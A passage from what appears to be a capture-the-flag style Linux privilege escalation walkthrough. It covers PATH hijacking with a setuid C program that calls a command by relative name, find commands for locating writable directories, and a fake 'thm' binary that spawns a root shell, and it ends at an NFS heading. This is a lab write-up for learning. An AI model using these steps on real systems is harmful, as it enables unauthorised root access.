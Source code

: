 Now we get the reverse shell to the system and the user is root.

## Privilege Escalation using PATH

If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script. PATH in Linux is an environmental variable that tells the operating system where to search for executables. For any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under PATH. (PATH is the environmental variable we're talking about here, path is the location of a file)

First explore these
1. What folders are located under $PATH
2. Does your current user have write privileges for any of these folders?
3. Can you modify $PATH?
4. Is there a script/application you can start that will be affected by this vulmerability?

We will try to use this code below

```c
#include<unistd.h>
void main() 
{
    setuid(0);
    setgid(0);
    system("thm");
}
```

So let us first find the writable directories for us we can use the command below

```bash
$find / -writable 2>/dev/null
```

This will output a lot of lines which is very hard to read and get a hang of it. So, we need to cut it and then sort with unique 

```bash
$find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u
```

We have seen that we have a home dir to write to let us grep it.

```bash
$find / -writable 2>/dev/null | grep home | sort -u
```
We have write access to an unusual home directory lets switch to that one. And we can see that we have 2 files there one is test and the other one is thm.py from thm.py we can see that it calls thm binary as said in the walkthrough so we need to create a bin with name thm we can simply do that by

```bash
$echo "/bin/bash" > thm
$chmod +x thm
```

Now if we run ```./test``` we get the root shell.

## Privilege escalation with NFS
